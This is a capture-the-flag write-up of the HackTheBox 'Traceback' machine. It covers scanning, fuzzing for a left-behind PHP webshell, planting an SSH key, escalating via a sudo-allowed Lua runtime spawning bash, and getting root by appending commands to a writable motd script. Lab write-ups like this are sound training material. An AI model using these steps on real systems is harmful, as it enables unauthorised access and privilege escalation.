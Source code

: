 # **TRACEBACK HTB**

Initial nmap scan reveals the following: 

```
sudo nmap -sS -sV -sC 10.10.10.181 > rec_ini
```
![](Pictures/initial_scan.png)

So, there is a ssh and an open port 80 (http). Let's try the web server, while I run a complete scan in the background:

```
sudo nmap -p- -T5 10.10.10.181 > all_ports
```
The following is the webpage with some html code: 

![](Pictures/the_web_page.png)

```
<!DOCTYPE html>
<html>
<head>
	<title>Help us</title>
	<style type="text/css">
		@-webkit-keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		@-moz-keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		@keyframes blinking {
			0%	 { background-color: #fff; }
			49% { background-color: #fff; }
			50% { background-color: #000; }
			99% { background-color: #000; }
			100% { background-color: #fff; }
		}
		body {
			-webkit-animation: blinking 12.5s infinite;
			-moz-animation: blinking 12.5s infinite;
			animation: blinking 12.5s infinite;
			color: red;
		}
		
	</style>
</head>
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
</html>
```
Let's wait for the complete port scan, because there seems to be some kind of webshell from the comment. 
The all ports scan doesn't show anything.

![](Pictures/all_ports.png)

However, when I googled the comment written there, for some of the best webshells that you might need, I found a repository by the author of the Box. So I looked into the repository and found number of webshells.

![](Pictures/web_shells_by_the_author.png)

I cloned the repository and filtered out only the names of the php webshells into a file.

```
ls -l | grep php > shell_names.txt
cat shell_names.txt | awk '{print $9}' > t
mv t shell_names.txt
```
Now directory brute force the website :

```
$wfuzz -c -z file,$(pwd)/shell_names.txt  --hc 404,403 http://10.10.10.181/FUZZ
```

![](Pictures/result_of_shell_search.png)

**smevk.php** is found. The username and password for the webshell is admin:admin and we get into it. (Can be found in the source code of the webshell).

![](Pictures/web_shell_interface.png)

Since, we are logged in as the user webadmin, we can go to the webadmin home page and look into it. Since, the .ssh direfctory is writeable I can create my own ssh keys and upload them via the webshell. I generated ssh keys and dropped the public keys in the .ssh folder as authorized_keys. Then I was able to login as webadmin.

![](Pictures/webadmins_folder.png)

After checking the file note.txt and node.lua I found the following:

```
webadmin@traceback:~$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:~$ cat node.lua 
os.execute('/bin/bash')
webadmin@traceback:~$ 
```

Then I looked at the permission: 

```
sudo -l
```
![](Pictures/permissions.png)

It seemed that I can run the luvit binary as sysadmin without password. After searching for it I found out that it is a CLI tool that can be used as a scripting platform just like node. It is used for lua scripts and I know lua pretty well ;)

So I ran the node.lua using luvit as sysadmin 

```
sudo -u sysadmin /home/sysadmin/luvit node.lua
```

![](Pictures/got_user_shell.png)

So I got the user shell for sysadmin. I went to sysadmin directory and got the user.txt

![](Pictures/user.png)


## FINDING THE ROOT

After running pspy on the server, I found out that a process is running as with the UID-0. It is the 00-header: 

![](Pictures/result_of_pspy.png)

It runs the update-motd. It basically creates a cron jon which in turn runs the /usr/sbin/update-motd every 10 minutes.

I noticed that the message printed out during ssh as webadmin, was written in the 00-header in /etc/update-motd.d/00-header. Therefore, it is executed while doing ssh into the server. Also it is writable by the user. 

![](Pictures/message_while_ssh.png)

There is no vim in the server and permission for nano is also denied. I echoed the command in the file. Although I was able to write to the file, at first I wasn't able to get anything. But when I quickly tried writing and ssh-ing into the server, I got the output as root (most probably the file was written by a cronjob)

```
echo id >> 00-header
```

![](Pictures/getting_command_execution_as_root.png)

```
echo "cat /root/root.txt" >> 00-header
```

![](Pictures/root.png)

So, that's how I got the root flag. 
